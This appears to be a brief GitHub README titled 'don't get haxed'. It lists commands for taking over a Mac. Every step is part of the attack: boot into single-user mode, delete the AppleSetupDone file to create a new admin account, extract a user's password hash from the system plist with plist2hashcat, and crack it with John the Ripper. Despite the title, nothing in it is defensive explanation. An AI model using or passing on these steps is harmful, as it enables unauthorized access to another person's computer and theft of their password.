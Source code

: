 # don't get haxed
view in raw to get commands right cuz github doesn't give a crap about what goes on what line :)
# new admin user in single user mode
mount -uw /
rm /var/db/AppleSetupDone
*reboot*
# execute in terminal with root access
cd path/to/hashcat
sudo ./plist2hashcat.py /var/db/dslocal/nodes/default/users/*USER*.plist
save output to sha-512.txt in /path/to/JTR/run
cd path/to/JTR/run
./john --show --format=PBKDF2-HMAC-SHA512 sha-512.txt
